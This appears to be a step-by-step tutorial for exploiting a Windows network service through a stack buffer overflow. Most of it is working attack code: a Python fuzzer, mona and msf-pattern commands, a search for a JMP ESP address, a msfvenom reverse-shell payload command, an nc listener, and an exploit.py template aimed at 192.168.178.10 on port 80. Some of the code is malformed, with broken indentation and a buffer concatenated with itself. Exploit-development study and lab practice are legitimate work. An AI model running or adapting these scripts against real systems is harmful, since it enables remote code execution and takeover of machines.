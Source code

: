 ##### BufferOverflow

To exploit this application via buffer overflow, firstly the application must be crashed. This is done by using the fuzzer below. 
This fuzzer will send an array of increasing values, where the value is "A", until the application crashes and will leave you with the correct number of bytes needed
to crash the application.

fuzzy.py

```
#!/usr/bin/python

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
 ```
    
   
   Once the application has been crashed. It is time to overwrite and take control of the EIP pointer. To do this I will create a unique pattern using
   msf-pattern-create, using the greatest size of bytes used to crash the application via the fuzzer.

Create a working directory for !mona
```    
!mona config -set workingfolder c:\mona\%p
```

Create a pattern to overwrite

```
msf-pattern_create -l <i.e 2560 or 0xA00>
```

Find the offset

```
msf-pattern_offset -l <i.e 2560 or 0xA00> -q <i.e 33794332>
```

Once the offset has been found. In this case 2288, over the original 2560.

```
Creating the inputBuffer

filler = 'A' * 0x8f0 #2288   This is the space to write to get to EIP
eip = 'B' * 0x4      #4      This is the space we need to take over EIP
buffer = 'C' * 0x616 #268    This is for Shellcode ;~)
```

This should equal 2560 as the original size of the pattern created. 

To test this I have created the exploit, working primarily into this file as I go forward.

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * 0x8f0 #2288  
  eip = 'B' * 0x4     
  buffer = 'C' * 0x616 #268  

	inputBuffer = filler + eip + buffer

	content = inputBuffer 

	buffer+= content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```
Running exploit.py, EIP should now be equal to 42424242 (hex value of “BBBB”). I now control EIP!

Now that EIP has been controlled, it is critical to gather a list of bad characters, when the shellcode is generated any invalid characters could
stop the payload from being read through the application. 

Finding bad characters with !mona. '\x00' is always considered a bad character as it will truncate shellcode when executed.

Creating a list of badchars using !mona
```
!mona bytearray -b "\x00"
``` 
This will exclude the bad characters
```
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
``` 
This will compare the remaining list against the application. 

Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.

Finding JMP ESP

Now that control of EIP has been taken, and all bad characters have been eliminated, the next thing needed is an address to jump to ESP.
This can found using !mona.

To load mona modules:
```
!mona modules
```

Finding a .dll where Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a 
JMP ESP (FFE4), inside the dll :
```
!mona find -s "\xff\xe4" -m <DLL>
```
Return address
Choose an address in the results and update exploit.py :
Setting the retn variable to the address, written backward (little-endian)

```
JMP ESP address

0x625011af

# exploit.py
eip = "\xaf\x11\x50\x62"
```

Generate the shellcode 
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> –e x86/shikata_ga_nai -b "<BAD_CHARS>" -f c
```

Prepend NOPs

A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
```
padding = "\x90" * 16
```

Start an nc listener on port 1234

```
sudo nc -lnvp 1234
```

Final Exploit

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * FillerNum 
  eip = ''  EIP ADDRESS 
  buffer = 'C' * 0x616 #268  
  padding = "\x90" * 16
  
  ## Generate Shellcode Command: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> –e x86/shikata_ga_nai -b "<BAD_CHARS>" -f c
  ## Bad Charecters: 
  
  shellcode = 
  
	inputBuffer = filler + eip + padding + shellcode + buffer

	content = inputBuffer 

	buffer += content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```




